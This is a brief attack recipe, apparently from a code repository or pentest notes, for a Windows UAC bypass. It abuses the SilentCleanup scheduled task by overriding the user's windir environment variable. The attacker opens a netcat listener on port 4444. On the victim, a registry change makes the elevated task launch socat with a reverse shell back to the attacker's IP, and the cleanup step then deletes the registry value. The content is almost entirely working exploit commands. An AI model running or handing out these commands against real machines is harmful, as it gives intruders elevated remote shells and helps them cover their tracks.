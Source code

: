 **Attacker**

	nc -lvp 4444

**Victim**
```
C:\> reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes &REM " /f

C:\> schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

C:\> reg delete "HKCU\Environment" /v "windir" /f
```
